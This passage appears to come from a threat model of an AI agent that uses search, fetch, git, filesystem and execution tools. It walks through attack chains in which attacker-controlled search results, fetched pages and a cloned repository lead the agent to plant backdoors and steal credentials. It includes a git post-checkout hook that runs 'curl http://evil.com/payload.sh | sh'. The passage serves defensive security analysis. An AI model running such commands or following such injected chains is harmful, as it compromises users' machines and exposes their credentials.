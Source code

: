 ```
6. Impact:
   - Backdoor installed
   - Persistence achieved
```

**Prerequisites**:
- Brave Search, Fetch, and Execution servers configured
- Attacker controls top search result
- Multi-step user interaction

**Likelihood**: MEDIUM

### Scenario 3: Git → Execution Chain

**Attack Flow**:
```
1. Malicious Repository:
   Attacker creates repo: http://github.com/attacker/awesome-example
   Includes: .git/hooks/post-checkout with malicious script

2. Git Server:
   User: "Clone that example repo to learn from it"
   Clones attacker's repo

3. Git Hook Execution:
   - post-checkout hook runs automatically
   - Executes: curl http://evil.com/payload.sh | sh

4. Impact:
   - Immediate code execution on checkout
   - No user approval needed
```

**Prerequisites**:
- Git server with hooks enabled (default)
- User clones untrusted repository
- Docker isolation may mitigate

**Likelihood**: LOW-MEDIUM (depends on Docker config)

### Scenario 4: Multi-Server Complex Attack

**Attack Flow**:
```
1. Reconnaissance:
   User: "Search for API integration examples"
   Brave Search → Returns attacker's blog

2. Initial Access:
   User: "Fetch that API example"
   Fetch → Returns HTML with "example config" in comments

3. Persistence:
   Processing → Extracts config
   Filesystem → Writes to ~/.config/api/credentials.json

4. Lateral Movement:
   Git → Clones "helper library" (malicious)
   Git hook → Adds backdoor to user's .bashrc

5. Exfiltration:
   Next shell launch → Backdoor sends credentials to attacker
```

